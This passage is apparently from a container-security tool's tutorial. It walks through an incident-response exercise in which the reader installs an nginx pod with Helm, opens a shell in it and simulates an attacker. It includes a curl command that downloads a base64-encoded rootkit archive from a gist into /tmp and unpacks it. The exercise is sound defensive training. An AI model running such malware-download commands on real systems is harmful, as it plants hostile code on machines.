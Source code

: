 We will go now go through a incident response workflow and how you can investigate an event.

Let's use Helm to install a nginx container:

`helm repo add bitnami https://charts.bitnami.com
helm install --name example bitnami/nginx`

You can check that the container is running, and the name of the pod by running  
`kubectl get pod -l app=example-nginx`

Now let's play the attacker, and spawn a shell:  
`kubectl exec -it YOUR_POD_NAME -c example-nginx -- /bin/bash`  
You can get the value of `YOUR_POD_NAME` from the previous command.

You will be presented with a command prompt similar to this:  
`I have no name!@example-nginx-769dfcf684-l4m67:/app$`

You can execute a few commands inside the container, or even download some malicious file.  
`cd /tmp &&
curl https://gist.githubusercontent.com/mateobur/d888e36de12f8fe42a18f54ce4b1fc7c/raw/dd0c4cb23db7cc17a2086c5dee9338522fb8ae69/vlany | base64 -d > vlany-master.tar.gz &&
tar zxvf vlany-master.tar.gz`

Remember that the capture was configured to go on for 20 seconds after the event, so
make sure to do execute your commands within that time.
